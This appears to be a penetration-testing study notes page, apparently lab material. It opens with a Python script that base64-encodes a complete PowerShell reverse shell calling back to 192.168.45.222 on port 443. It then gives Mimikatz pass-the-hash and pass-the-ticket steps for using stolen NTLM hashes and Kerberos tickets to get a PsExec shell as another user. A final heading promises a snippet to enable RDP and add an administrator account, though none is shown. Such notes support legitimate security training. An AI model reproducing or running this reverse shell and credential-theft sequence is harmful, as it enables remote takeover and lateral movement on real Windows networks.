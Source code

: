 ### Python Base64 - Encoder
```python
#!/usr/bin/env python

import base64
def encode(data):
    encoded = base64.b64encode(data.encode('utf-8') if isinstance(data, str) else data)
    return encoded.decode('utf-8')

command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.222",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

print(encode(command));


```

### Passing the Hash

##### General Theory
- Usually the PTH technique does not work with Kerberos Authentication.
- Different Applications provide different ways to use the PTH techniques.
	- MimiKatz toolkit has the `/pth:` for users to pass in the NTLM hashes.
	- XFREERDP has the `/pth:` parameter in case you dont have the cleartext password.
- Make sure hashes start with a colon in case things don't work out  `':'`.

##### Converting a KerbTGT into a TGS & Use Any Service in the context of a different user:
1. Log into a system as `offsec` & get the cached NTLM of another user - `jen`.
2. Now, use the `sekurlsa::pth` module to pass the hash and create a powershell session in the context of this new user - `jen`.
3. Now use the `klist` command to see that no credentials are cached. To cache the KerbTGT, we will try to access some service as jen, but from the commandline.
4. Use the `\\web04` network file share using the `net use \\web04` command. Since the powershell session is running as jen, her **TGT and TGS** will be cached. This can be confirmed with `klist`.
5. Once we have the TGS, this means we can use any service as jen. So we will use `.\PSExec \\web04 cmd` to gain shell as jen with high privs. 

##### Passing the Ticket
- TGT is good for authenticating for gaining shells. However, it is TGS provides more flexibility. We can use the `sekurlsa::tickets /export` command to dump all the TGS tickets into the working directory.
- Then you can simply use the `kerberos::ptt` command, and paste one of the ticket names which ends in the `.kirbi` extention.

---
### Turn on Remote Desktop on Windows (RDP)
We will use one snippet to :
1. Turn on RDP
2. Add new user
3. Configure Firewall to allow RDP from outside 
4. Add new user to ADMINISTRATORS group
